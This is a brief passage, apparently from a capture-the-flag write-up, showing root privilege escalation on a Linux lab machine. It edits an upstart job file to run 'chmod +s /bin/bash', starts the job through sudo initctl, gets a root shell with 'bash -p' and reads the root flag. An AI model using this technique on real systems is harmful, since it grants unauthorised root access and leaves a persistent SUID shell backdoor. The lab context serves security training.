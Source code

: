 editing test.conf
```
script

    chmod +s /bin/bash
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script
```

running test.conf
```
-bash-4.3$ sudo /sbin/initctl start test

test start/running, process 14232
```

run to get root
```
-bash-4.3$ /bin/bash -p

bash-4.3# id

uid=20156(katie) gid=20157(katie) euid=0(root) egid=0(root) groups=0(root),20157(katie),20158(developers)
```

```
bash-4.3# cat /root/root.txt

<redacted>
```
